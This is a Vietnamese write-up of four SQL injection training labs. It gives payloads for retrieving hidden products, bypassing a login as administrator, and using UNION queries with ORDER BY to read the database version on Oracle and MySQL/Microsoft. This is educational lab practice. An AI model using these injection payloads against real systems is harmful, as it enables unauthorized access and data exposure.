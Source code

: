 # SQL Injection Writeups LAB
## Lab 1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
Description: Ta cần display 1 hoặc nhiều product không được phát hành để pass bài lab với câu query trong database cho trước
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
Để pass bài lab này, ta chỉ cần sử dụng case cơ bản nhất của SQLi `' OR 1=1--'`
![image](https://hackmd.io/_uploads/H1LxSsJ2a.png)

## Lab 2: SQL injection vulnerability allowing login bypass
Description: Thực hiện SQLi attack để đăng nhập làm admin
Case đơn giản nhất ta chỉ cần nhập `username=administrator'--` với password tùy ý, ta sẽ log in với quyền của admin.
Câu query trong database có thể là `SELECT * FROM users WHERE username='administrator'-- AND password='...'`
![image](https://hackmd.io/_uploads/HJJ48iy3T.png)

## Lab 3: SQL injection attack, querying the database type and version on Oracle
Description: Display version của database
Các bước đầu tiên khi thực hiện SQLi attack, check query dùng dấu `'` hay `"`, sau đó xem câu `SELECT` trước dùng mấy cột với `ORDER BY`, tiếp theo xem từng cột dùng loại datatype nào bằng cách sử dụng thử 1 chuỗi để check từng cột. Rồi xem cột nào được display thì sẽ dùng nó để đi sau vào UNION attack.

Bài hiện tại là dùng Oracle nên có chút hơi khác biệt.
- Mỗi lệnh SELECT là phải dùng FROM DUAL
- Xác định loại và version `SELECT banner FROM v$version`, `SELECT version FROM v$instance`

Với bài này, ta sẽ theo luồng như sau (Nhớ URL encode các query)
```
' OR 1=1--
' ORDER BY 2-- (Khi dùng ORDER BY 3 sẽ gặp lỗi -> Có 2 cột)
' UNION SELECT NULL,NULL FROM DUAL--
' UNION SELECT 'a','a' FROM DUAL-- (Cả 2 cột đều dùng string)
' UNION SELECT banner,NULL FROM v$version--
```

![image](https://hackmd.io/_uploads/HkzJCjk2T.png)

## Lab 4: SQL injection attack, querying the database type and version on MySQL and Microsoft
Description: Display version của database
Tương tự bài ở trên, ta sẽ theo luồng như sau (MySQL sử dụng comment là `#` hoặc `-- -`)
```
' OR 1=1#
' ORDER BY 2# (Khi dùng ORDER BY 3 sẽ gặp lỗi -> Có 2 cột)
' UNION SELECT NULL,NULL#
' UNION SELECT 'a','a'# 
' UNION SELECT @@version,NULL#
```
